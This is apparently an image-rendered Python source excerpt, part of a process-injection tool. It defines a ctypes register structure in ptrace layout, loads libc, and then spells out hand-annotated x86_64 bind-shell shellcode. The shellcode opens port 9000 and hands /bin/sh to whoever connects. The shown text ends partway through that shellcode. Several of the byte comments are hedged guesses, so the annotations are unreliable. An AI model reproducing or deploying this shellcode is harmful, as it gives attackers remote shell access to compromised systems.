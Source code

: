 ```python
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

#
# x86_64 BIND SHELL shellcode listening on port 9000 (0x2328, network order 0x23 0x28)
# Creates a socket, bind(0.0.0.0:9000), listen, accept, dup2, exec /bin/sh
#
shellcode = (
    "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6"      # zero out regs, set rsi=0, rdx=0, inc rsi=1? ...
    "\x6a\x29\x58"                                      # push 0x29; pop rax -> sys_socket
    "\x6a\x02\x5f"                                      # push 2; pop rdi -> AF_INET
    "\x0f\x05"                                          # syscall -> socket(AF_INET, SOCK_STREAM, 0)
    "\x48\x97"                                          # xchg rdi, rax (store sockfd in rdi)
    "\x6a\x02"                                          # push 2
    "\x66\xc7\x44\x24\x02\x23\x28"                      # mov word [rsp+2], 0x2328 (9000 in BE)
    "\x54"                                              # push rsp
    "\x5e"                                              # pop rsi => points to sockaddr_in on stack
    "\x52"                                              # push rdx => zero -> sin_zero
    "\x6a\x31\x58"                                      # push 0x31; pop rax -> sys_bind
    "\x6a\x10\x5a"                                      # push 16; pop rdx -> sizeof(sockaddr_in)
    "\x0f\x05"                                          # syscall -> bind(sockfd, sockaddr_in, 16)
    "\x5e"                                              # pop rsi (restore something)
    "\x6a\x32\x58"                                      # push 0x32; pop rax -> sys_listen
    "\x0f\x05"                                          # listen(sockfd, backlog=0)
    "\x6a\x2b\x58"                                      # push 0x2b; pop rax -> sys_accept
    "\x0f\x05"                                          # accept(sockfd, NULL, NULL)
    "\x48\x97"                                          # xchg rdi, rax (new client socket in rdi)
    "\x6a\x03\x5e"                                      # push 3; pop rsi
    "\xff\xce"                                          # dec esi
    "\xb0\x21"                                          # mov al, 0x21 (syscall = sys_dup2)
    "\x0f\x05"                                          # dup2(rdi, rsi)
    "\x75\xf8"                                          # jnz -> repeat for 0,1,2
    "\xf7\xe6"                                          # mul esi (clear?)
    "\x52"                                              # push rdx
    "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"          # mov rbx, "//bin/sh"
```